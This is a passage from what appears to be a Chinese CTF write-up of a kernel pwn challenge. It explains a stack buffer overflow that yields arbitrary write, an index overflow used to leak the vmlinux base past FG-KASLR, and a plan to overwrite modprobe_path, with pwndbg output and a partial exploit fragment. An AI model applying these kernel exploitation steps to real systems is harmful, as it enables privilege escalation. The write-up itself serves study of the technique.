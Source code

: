 ```
  return __readgsqword(0x28u) ^ v8;
`}`
```

而我们注意将用户输入字符串`src`是先拷贝到栈上 `dst`处，其大小为 `0x100`，而程序对输入的 `src`大小没有做限制。也即是这里存在缓冲区溢出漏洞，可以通过溢出 `dst`修改后续的`global_buf1`和`v7`，而这两个变量后面可以修改全局变量 `global_buffer`和 `size`。

而通过该漏洞修改了 `global_buffer`和 `size`漏洞后，便可以再结合 `cast_a_spell` 实现任意地址写。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

这道题开启了 `FG-KASLR`会导致`vmlinux` 和相应的内核模块以函数为单位分段，然后在原先地址随机化的基础上打乱函数加载顺序。也即增大了使用 `ROP`技术的难度。但是这道题如果通过覆写 `modprobe_path`，则会使难度大大减小。

为了达到覆写 `modprobe_path`的要求，首先一个任意地址写漏洞已经存在，其次就是要泄露地址。

****泄露地址****

在`choose_a_spell`可以指定一个`spell`结构体，而这里存在索引上溢。当我们指向16时，`list`数组将会取出紧邻的`vmlinux_base`地址，然后我们将该地址的数据打印出来，如下所示。而在`0x69`偏移处可以找到一个关于 `vmlinux`的地址，根据这个地址可以得到 `vmlinux_base`地址。 那么我们即可使用`read`函数将其读取出来，泄露了`kernel`地址，加上其与`modprobe_path`的偏移，即可得到`modprobe_path`的地址，该地址是不受 `FG-KASLR`影响的。

```
pwndbg&gt; x/28i 0xffffffff9d800000
   0xffffffff9d800000:  lea    rsp,[rip+0x1403f51]        # 0xffffffff9ec03f58
   0xffffffff9d800007:  call   0xffffffff9d8000f0
   0xffffffff9d80000c:  lea    rdi,[rip+0xffffffffffffffed]        # 0xffffffff9d800000
   0xffffffff9d800013:  push   rsi
   0xffffffff9d800014:  call   0xffffffff9d800200
   0xffffffff9d800019:  pop    rsi
   0xffffffff9d80001a:  add    rax,0x1f256000
   0xffffffff9d800020:  jmp    0xffffffff9d800042
   0xffffffff9d800022:  data16 nop WORD PTR cs:[rax+rax*1+0x0]
   0xffffffff9d80002d:  nop    DWORD PTR [rax]
   0xffffffff9d800030:  call   0xffffffff9d8000f0
   0xffffffff9d800035:  push   rsi
   0xffffffff9d800036:  call   0xffffffff9e528460
   0xffffffff9d80003b:  pop    rsi
   0xffffffff9d80003c:  add    rax,0x1ec0a000
   0xffffffff9d800042:  mov    ecx,0xa0
   0xffffffff9d800047:  test   DWORD PTR [rip+0x12d0807],0x1        # 0xffffffff9ead0858
   0xffffffff9d800051:  je     0xffffffff9d800059
   0xffffffff9d800053:  or     ecx,0x1000
   0xffffffff9d800059:  mov    cr4,rcx
   0xffffffff9d80005c:  add    rax,QWORD PTR [rip+0x1411fad]        # 0xffffffff9ec12010
   0xffffffff9d800063:  mov    cr3,rax
   0xffffffff9d800066:  mov    rax,0xffffffff9d80006f                //此处存在vmlinux地址
```

****覆写modprobe_path****

得到`modprobe_path`地址后。我们按照上述的缓冲区溢出漏洞构造任意地址写。构造数据如下：

```
memset(buffer, 0x0, 0x100);
    (unsigned long long)buffer[0x100] = modprobe_path;
    printf("buffer_addr: 0x%llx\n", buffer[0x100]);
```
